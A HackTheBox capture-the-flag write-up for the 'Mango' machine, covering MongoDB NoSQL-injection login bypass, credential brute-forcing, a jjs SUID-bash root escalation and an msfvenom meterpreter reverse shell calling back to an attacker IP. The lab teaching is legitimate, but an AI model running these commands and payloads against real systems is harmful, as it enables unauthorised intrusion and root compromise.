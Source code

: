 ```yaml
---
layout: single
title: "Exploiting MongoDB NoSQL Injection to Username:Password Enumeration & Java jjs SGID to Root Shell"
excerpt: "Linux box of medium difficulty. The early shell used MongoDB to brute the user's passwords using NoSQL bypass. To raise root privilege, it was enough for a system equipped with a permissive SUID."
date: 2020-04-17 00:22:00 -0000
classes: wide
header:
  teaser: /asset/htbwriteup/linux/mango/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories: hackthebox
permalink: /htb/htbMango
tags: [mongodb, jjs, PrependSetuid, jjs bash SUID]

---
```


# HTB - Mango

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/intro.PNG "mango intro")

Linux box of medium difficulty. The early shell used MongoDB to brute the user's passwords using NoSQL bypass. To raise root privilege, it was enough for a system equipped with a permissive SUID.

---
## Recon
    $ nmap -Pn -sCV -p22,80,443 -oN nmap/Basic_10.10.10.162.nmap 10.10.10.162 
    
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/1.png)

- From the nmap scan, there are 3 services, OpenSSH 7.6p1 and http Apache 2.4.29 on port 80 and also https Apache titled Mango | Search Base on port 443.

- As usual, we added 10.10.10.162 `staging-order.mango.htb` to our `/etc/hosts` file. It is a subdomain under `mango.htb`. We started to browse to port 443 which is a login page and we got a hint that it is likely `MongoDB` by guessing the box's name `Mango` XD.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/login.png)

- After googling, i found MongoDB injection from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). After testing with BurpSuite, we can confirm that the login page is vulnerable to NoSQL injection as we get redirected to `home.php` after we bypassed the authentication page.

- There is a python script to bruteforce the login page that we found from [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login).

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/4.png)

- To use the script, we just need to modify the `url, Host and PHPSESSID` as below.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/5.png)

---
## Exploit
- run the script and we got 2 credentials for `admin` and `mango` users.
-		$ python brute.py
-	    [*] Found admin:t9KcS3>!0B#2 
		[*] Found mango:h3mXK8RhU~f{]f5H

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/6.png)

- Without a doubt, we managed to SSH into mango user. We try to login to admin user through SSH but it failed earlier.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/8.png)

### From mango to admin shell:
- We list all the users on the machine and got 2 users that have login shell which are admin and mango.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/9.png)

- mango user can't view the user.txt flag. However, we can `su` into admin and got the flag.
 
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/10.png)

---
## Privilege escalation

### Reads or disclose files outside a restricted file system: 
- As usual, we will use [`LinEnum`](https://github.com/rebootuser/LinEnum) to enumerate for ways to escalate to `root`.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/11.png)

- LinEnum gave us interesting SGID file that is jjs. `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/12.png)

- By referring to [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/), it may be used to do privileged reads or disclose files outside a restricted file system. So, we can read root's files using this method.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/13.png)

- So, we need to point the file that need to be read and we got the `root.txt` flag. 

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/14.png)

### Get a root shell by making bash SUID using jjs:
- `exec('chmod u+s /bin/bash')`, where we get `euid as (root)`
- 

    admin@mango:/home/admin$ jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    admin@mango:/home/admin$ /bin/bash -p
    bash-4.4# id
    uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

### Meterpreter shell with the `PrependSetuid` option to root shell:

-  Generate elf meterpreter and transfer our elf to victim machine.

		fesal@de7fx:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 PrependSetuid=true -f elf -o rev

- On victim machine.


		admin@mango:/tmp$ chmod +x rev
		admin@mango:/tmp$ /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		Warning: The jjs tool is planned to be removed from a future JDK release
		jjs> Java.type('java.lang.Runtime').getRuntime().exec('/tmp/rev').waitFor()

- On kali machine.

		Meterpreter session 1 opened (10.10.14.40:4444 -> 10.10.10.162:37425) at 2020-03-09 21:53:16 

		msf5 exploit(multi/handler) > sessions 1
		[*] Starting interaction with 1...

		meterpreter > getuid
		Server username: uid=0, gid=1001, euid=0, egid=1001
		meterpreter > shell
		Process 5656 created.
		Channel 1 created.
		id
		uid0(root) gid=1001(admin) groups=1001(admin)

That's great, now we are in root shell ---- :)
